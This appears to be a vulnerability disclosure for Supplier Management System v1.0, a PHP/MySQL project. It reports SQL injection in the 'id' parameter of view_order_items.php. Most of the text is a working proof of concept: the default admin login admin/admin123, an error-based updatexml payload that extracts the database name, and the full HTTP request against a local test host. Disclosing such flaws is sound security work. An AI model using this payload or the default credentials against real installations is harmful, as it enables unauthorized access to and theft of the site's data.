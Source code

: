 # Supplier Management System v1.0 has SQL injection

BUG_AUTHOR: Chen haokun

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/supplier-management-system-using-php-mysql/

Vulnerability File: /Supply_Management_System/admin/view_order_items.php?id=

Vulnerability location: /Supply_Management_System/admin/view_order_items.php, id

Current database name: sourcecodester_scm_new

[+] Payload: /Supply_Management_System/admin/view_order_items.php?id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /Supply_Management_System/admin/view_order_items.php?id=6%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lnrmrcve0bbe6h4i3h1cn01oee
Connection: close
```

![image](https://github.com/user-attachments/assets/6cc18aa1-5928-48b5-a329-395e41b35ff6)

